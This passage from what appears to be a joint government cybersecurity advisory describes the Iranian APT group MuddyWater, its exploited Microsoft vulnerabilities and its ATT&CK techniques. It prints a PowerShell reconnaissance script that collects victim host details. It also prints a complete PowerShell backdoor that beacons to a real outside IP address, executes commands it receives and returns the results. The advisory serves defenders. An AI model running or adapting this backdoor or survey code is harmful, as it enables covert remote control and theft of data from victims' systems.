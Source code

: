This group is also known to use the POWERSTATS backdoor, which runs PowerShell scripts to maintain persistent access to the victim systems [T1059.001]. 
CNMF has posted samples further detailing the different parts of MuddyWater’s new suite of tools— along with JavaScript files used to establish connections back to malicious infrastructure—to the malware aggregation tool and repository, Virus Total. Network operators who identify multiple instances of the tools on the same network should investigate further as this may indicate the presence of an Iranian malicious cyber actor.
MuddyWater actors are also known to exploit unpatched vulnerabilities as part of their targeted operations. FBI, CISA, CNMF, and NCSC-UK have observed this APT group recently exploiting the Microsoft Netlogon elevation of privilege vulnerability (CVE-2020-1472) and the Microsoft Exchange memory corruption vulnerability (CVE-2020-0688). See CISA’s Known Exploited Vulnerabilities Catalog for additional vulnerabilities with known exploits and joint Cybersecurity Advisory: Iranian Government-Sponsored APT Cyber Actors Exploiting Microsoft Exchange and Fortinet Vulnerabilities for additional Iranian APT group-specific vulnerability exploits.
Survey Script
The following script is an example of a survey script used by MuddyWater to enumerate information about victim computers. It queries the Windows Management Instrumentation (WMI) service to obtain information about the compromised machine to generate a string, with these fields separated by a delimiter (e.g., ;; in this sample). The produced string is usually encoded by the MuddyWater implant and sent to an adversary-controlled IP address.
$O = Get-WmiObject Win32_OperatingSystem;$S = $O.Name;$S += ";;";$ips = "";Get-WmiObject Win32_NetworkAdapterConfiguration -Filter "IPEnabled=True" | % {$ips = $ips + ", " + $_.IPAddress[0]};$S += $ips.substring(1);$S += ";;";$S += $O.OSArchitecture;$S += ";;";$S += [System.Net.DNS]::GetHostByName('').HostName;$S += ";;";$S += ((Get-WmiObject Win32_ComputerSystem).Domain);$S += ";;";$S += $env:UserName;$S += ";;";$AntiVirusProducts = Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct  -ComputerName $env:computername;$resAnti = @();foreach($AntiVirusProduct in $AntiVirusProducts){$resAnti += $AntiVirusProduct.displayName};$S += $resAnti;echo $S;
Newly Identified PowerShell Backdoor
The newly identified PowerShell backdoor used by MuddyWater below uses a single-byte Exclusive-OR (XOR) to encrypt communications with the key 0x02 to adversary-controlled infrastructure. The script is lightweight in functionality and uses the InvokeScript method to execute responses received from the adversary.
function encode($txt,$key){$enByte = [Text.Encoding]::UTF8.GetBytes($txt);for($i=0; $i -lt $enByte.count ; $i++){$enByte[$i] = $enByte[$i] -bxor $key;}$encodetxt = [Convert]::ToBase64String($enByte);return $encodetxt;}function decode($txt,$key){$enByte = [System.Convert]::FromBase64String($txt);for($i=0; $i -lt $enByte.count ; $i++){$enByte[$i] = $enByte[$i] -bxor $key;}$dtxt = [System.Text.Encoding]::UTF8.GetString($enByte);return $dtxt;}$global:tt=20;while($true){try{$w = [System.Net.HttpWebRequest]::Create('http://95.181.161.49:80/index.php?id=<victim identifier>');$w.proxy = [Net.WebRequest]::GetSystemWebProxy();$r=(New-Object System.IO.StreamReader($w.GetResponse().GetResponseStream())).ReadToEnd();if($r.Length -gt 0){$res=[string]$ExecutionContext.InvokeCommand.InvokeScript(( decode $r 2));$wr = [System.Net.HttpWebRequest]::Create('http://95.181.161.49:80/index.php?id=<victim identifier>');$wr.proxy = [Net.WebRequest]::GetSystemWebProxy();$wr.Headers.Add('cookie',(encode $res 2));$wr.GetResponse().GetResponseStream();}}catch {}Start-Sleep -Seconds $global:tt;}
MITRE ATT&CK Techniques
MuddyWater uses the ATT&CK techniques listed in table 1.
Table 1: MuddyWater ATT&CK Techniques[2]
Technique Title
ID
Use
Reconnaissance
Gather Victim Identity Information: Email Addresses
T1589.002
MuddyWater has specifically targeted government agency employees with spearphishing emails.
Resource Development
Acquire Infrastructure: Web Services
T1583.006
MuddyWater has used file sharing services including OneHub to distribute tools.
Obtain Capabilities: Tool
T1588.002
MuddyWater has made use of legitimate tools ConnectWise and RemoteUtilities for access to target environments.
Initial Access
Phishing: Spearphishing Attachment
T1566.001